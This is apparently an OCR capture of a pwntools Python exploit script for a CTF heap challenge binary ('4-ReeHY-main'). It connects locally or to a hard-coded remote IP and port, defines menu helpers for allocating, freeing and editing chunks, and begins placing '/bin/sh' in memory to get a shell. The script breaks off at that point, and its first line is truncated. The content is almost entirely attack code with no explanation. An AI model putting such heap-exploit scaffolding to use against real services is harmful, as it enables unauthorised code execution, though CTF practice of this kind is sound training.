 ```
port re 
import socket 
import time 
from pwn import *

slog = 0 
local = 1 
debug = 0

BUFFER = 4096

# context : Set runtime variables
context(arch = 'amd64', os = 'linux') 
if slog : 
	context.log_level = True
if local : 
	conn = process('./4-ReeHY-main') 
else: 
	conn = remote('211.159.216.90',51888)

if local and debug: 
	gdb.attach(conn,'b *0x0400B21') 
# 0x400B67 after free
# 0x400C2E after read(edit)

def addexp(size,nIndex,content): 
	conn.recvuntil('****\n$') 
	conn.send('1\n') 
	conn.recvuntil('Input size\n') 
	conn.send(str(size)+'\n') 
	conn.recvuntil('Input cun\n') 
	conn.send(str(nIndex)+'\n') 
	conn.recvuntil('Input content\n') 
	conn.send(content+'\n')

def delexp(nIndex): 
	conn.recvuntil('****\n$') 
	conn.send('2\n') 
	conn.recvuntil('Chose one to dele\n') 
	conn.send(str(nIndex)+'\n')

def editexp(nIndex,data): 
	conn.recvuntil('****\n$') 
	conn.send('3\n') 
	conn.recvuntil('Chose one to edit\n') 
	conn.send(str(nIndex)+'\n') 
	conn.recvuntil('Input the content\n') 
	conn.send(data+'\n')

def editexp2(nIndex,data): 
	conn.recvuntil('****\n$') 
	conn.send('3\n') 
	conn.recvuntil('Chose one to edit\n') 
	conn.send(str(nIndex)+'\n') 
	conn.recvuntil('Input the content\n') 
	conn.send(data)

conn.recvuntil('$') 
conn.send("test\n")

# make one addr of /bin/sh 
ShellSend = "/bin/sh" 
addexp(0x20,4,ShellSend)
```